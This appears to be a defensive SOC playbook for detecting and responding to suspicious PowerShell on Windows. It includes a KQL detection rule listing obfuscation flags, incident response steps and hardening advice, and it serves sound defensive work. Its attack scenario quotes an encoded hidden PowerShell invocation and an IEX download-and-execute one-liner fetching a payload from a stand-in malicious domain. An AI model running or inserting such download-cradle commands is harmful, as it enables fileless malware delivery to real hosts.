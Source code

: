 # Suspicious PowerShell Execution on Windows Host

## Objective

Detect and respond to suspicious/malicious PowerShell activity on Windows endpoints—particularly when involving obfuscation, Base64 encoding, or indicators of post-exploitation—often linked to modern attacker behaviors and malware.

### MITRE ATT\&CK Mapping

- **T1059.001** – Command and Scripting Interpreter: PowerShell
- **T1027** – Obfuscated Files or Information
- **T1055** – Process Injection (optional, if present)


### Why It Matters

PowerShell, a trusted system tool, is frequently abused by attackers for:

- Running stealthy, in-memory attacks (fileless malware)
- Downloading payloads from the internet
- Evading traditional signature-based defenses


### Detection Logic: SIEM/EDR Use Case

#### Detection Rule Example (KQL for Microsoft Defender for Endpoint):

```kql
DeviceProcessEvents
| where FileName =~ "powershell.exe"
| where ProcessCommandLine has_any ("-EncodedCommand", "-e ", "-nop", "-noni", "-w hidden", "iex(", "Invoke-Expression", "FromBase64String", "System.Reflection.Assembly")
| project Timestamp, DeviceName, InitiatingProcessParentFileName, FileName, ProcessCommandLine, InitiatingProcessAccountName
```

- **Log Source**: Microsoft Defender for Endpoint / Windows Security Events (4688)
- **Typical Suspicious Flags**:
    - `-EncodedCommand`
    - `-nop`
    - `-w hidden`
    - `iex(`
    - `Invoke-Expression`
    - `FromBase64String`


### Attack Flow Scenario (Example)

1. **Malicious Document (Phishing)**
    - A user opens a fake invoice; macro executes `powershell.exe -nop -w hidden -EncodedCommand SQBFA...` (Base64).
2. **Obfuscated Execution**
    - The payload is obfuscated for stealth and delivered via Base64 in the PowerShell command.
3. **Fileless Infection**
    - Decoded command performs a remote script download:
        - `IEX (New-Object Net.WebClient).DownloadString('http://maliciousdomain[.]com/payload.ps1')`
    - Attacker achieves in-memory execution. No files are written to disk.

### Infographic: PowerShell Attack Chain

### Incident Response Steps

| Step | Action |
| :-- | :-- |
| Isolation | Contain the host if supported by EDR. |
| Investigation | Query all PowerShell logs (Event IDs 4104, 4688) for this host and user. |
| Network Check | Look for connections to suspicious domains used in decoded payload. |
| Persistence Hunt | Review system startup entries, registry, and scheduled tasks for persistence mechanisms. |
| Process Check | Look for child processes (e.g., `cmd.exe`, `regsvr32.exe`), and inspect for lateral movement. |
| Script Submission | Submit observed payloads/scripts to a sandbox for deeper analysis (dynamic/static). |

### Post-Incident Actions

- **Malware Removal**: Delete scripts, scheduled tasks, persistence artifacts.
- **Block**: Prevent communication to malicious domains/IPs at perimeter.
- **Password Reset**: Reset compromised user accounts.
- **Host Reimaging**: If integrity cannot be assured.
- **Detection Improvement**: Update SIEM/EDR signatures as appropriate.


### Analyst Deep Dive: Decoding Obfuscated Payloads

#### 1. Extract Base64 Argument

- Example: `SQBFAFgAIAAoAE4ARQBX...`


#### 2. Decode in PowerShell

```powershell
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("SQBFAFgAIAAo..."))
```

- Analyze output for secondary downloads, C2, or privilege escalation attempts.


### Additional Scenarios to Consider

- **PowerShell from Non-Standard Parents**:
    - Trigger when processes like `winword.exe`, `excel.exe`, `teams.exe`, `outlook.exe` spawn PowerShell, often as part of phishing.
- **Automated Lateral Movement**:
    - PowerShell is used to install backdoors on multiple endpoints.
- **Living-off-the-Land Attacks**:
    - Built-in PowerShell cmdlets run via LOLBins (Living Off the Land Binaries), evading EDR controls.


### Extended Recommendations \& Hardening

- **Monitor “EncodedCommand”, “Invoke-Expression”, and “FromBase64String”**
    - Regularly hunt for these flags across all endpoints.
- **Enable PowerShell Script Block Logging**
    - Leverage Event ID 4104 + Module Logging for maximum visibility.
- **Alert on PowerShell Spawning from Office/Browser**
    - Specially monitor `winword.exe`, `excel.exe`, and browsers as unusual parents.
- **Application Control**
    - Use AppLocker or WDAC to restrict execution to signed, trusted scripts only.
- **Disable or Limit PowerShell Remoting**
    - If not required in the environment.
- **Restrict User Privileges**
    - Only grant local administrator rights when necessary.
- **Block Execution from Drop Zones**
    - Prevent script execution from:
        - `C:\Users\Public\`
        - `%TEMP%`
        - `%APPDATA%`
        - `%ProgramData%`
- **Educate Users**
    - Ongoing awareness training to avoid phishing or macro-enabled document threats.


### Infographic: Suspicious PowerShell Chain (Expanded)

1. **Phishing/Malicious Document**
2. **Encoded/Obfuscated PowerShell Invocation**
3. **In-memory Download/Execution (Living Off the Land)**
4. **Persistence Mechanism (Registry, Task, WMI)**
5. **Data Exfiltration or Lateral Movement**

### Example: Alert Handling Workflow for Suspicious PowerShell

1. Alert triggers on: `powershell.exe -nop -w hidden -EncodedCommand ...`
2. Analyst extracts and decodes Base64 payload.
3. Payload downloads/executes a script from a remote domain.
4. System is contained, user credentials reset.
5. Follow-up: Sweep for similar encoded invocations in historic logs and across the environment.

### Visualization: Key Indicators to Monitor

- PowerShell with suspicious command-line flags
- Processes spawning PowerShell outside administrative consoles
- Outbound network traffic post PowerShell execution
- Obfuscated or base64 payloads in command lines/scripts

**Implementing comprehensive logging, alerting on suspicious command-line usage, and regularly auditing PowerShell activity is critical for timely detection and response to these prevalent attack vectors.**
